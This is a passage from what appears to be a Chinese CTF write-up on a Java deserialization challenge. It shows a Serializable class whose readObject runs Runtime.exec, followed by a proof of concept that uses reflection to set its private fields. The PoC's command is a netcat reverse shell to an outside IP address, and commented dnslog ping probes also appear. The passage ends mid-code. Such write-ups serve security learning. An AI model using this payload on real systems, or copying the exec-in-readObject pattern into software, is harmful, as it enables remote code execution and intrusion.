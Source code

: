 ### 13.1 题目详情

1. 写 wp 时环境好像出问题了，拒绝请求。印象中和上面的题目一样，也是一个序列化口。

2. 给了源码：
    ```java
    package com.avasec;
    
    import java.io.ObjectInputStream;
    import java.io.Serializable;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2024/9/20 14:04
     */
    public class Calc implements Serializable {
        private boolean hasPermission = false;
        // ping l82m5y.dnslog.cn -c 4
        private String cmd = "calc";
    
        public Calc() {
        }
    
        private void readObject(ObjectInputStream objectInputStream) throws Exception {
            objectInputStream.defaultReadObject();
            if (this.hasPermission) {
                Runtime.getRuntime().exec(this.cmd);
            }
    
        }
    }
    ```

### 13.2 思路

1. 给的类的 `readObject()` 执行危险命令，只不过其私有属性不是恶意命令，那么就需要使用反射来创建类，从而修改其属性内容。

2. PoC：
    ```java
    package com.avasec;
    
    import java.io.*;
    import java.lang.reflect.Field;
    import java.util.Arrays;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2024/9/20 13:41
     */
    public class web {
    
        public static void main(String[] args) throws Exception {
            Class<?> calcClass = Class.forName("com.avasec.Calc");
            Object calc = calcClass.newInstance();
            Field hasPermission = calcClass.getDeclaredField("hasPermission");
            hasPermission.setAccessible(true);
            hasPermission.set(calc, true);
            Field cmd = calcClass.getDeclaredField("cmd");
            cmd.setAccessible(true);
            // cmd.set(calc, "ping abc.96jd9x.dnslog.cn -c 1");
            cmd.set(calc, "nc 45.32.24.95 10000 -e /bin/sh");
            serialize(calc);
            // unserialize(serialize(calc));
            // unserialize(bytesTohexString(str.getBytes()));